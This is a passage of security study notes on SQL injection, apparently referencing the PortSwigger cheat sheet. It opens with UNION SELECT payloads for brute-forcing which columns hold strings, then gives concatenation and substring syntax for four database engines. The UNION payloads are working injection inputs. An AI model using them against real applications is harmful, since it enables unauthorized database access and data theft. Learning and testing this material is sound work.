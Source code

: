 ### Brute force Column types
```SPL
' UNION SELECT 'a',NULL,NULL,NULL--  
' UNION SELECT NULL,'a',NULL,NULL--  
' UNION SELECT NULL,NULL,'a',NULL--  
' UNION SELECT NULL,NULL,NULL,'a'--
```

In this attack you try to select a string value for each column and if the isn't a string then it will create an error. This means that you can figure out if the column has strings based on the error messages
  
 
 ## [Burp Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
 ### String concatenation

You can concatenate together multiple strings to make a single string.

Oracle

`'foo'||'bar'`

Microsoft

`'foo'+'bar'`

PostgreSQL

`'foo'||'bar'`

MySQL

`'foo' 'bar'` [Note the space between the two strings]  
`CONCAT('foo','bar')`

### Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

Oracle

`SUBSTR('foobar', 4, 2)`

Microsoft

`SUBSTRING('foobar', 4, 2)`

PostgreSQL

`SUBSTRING('foobar', 4, 2)`

MySQL

`SUBSTRING('foobar', 4, 2)`

### Comments
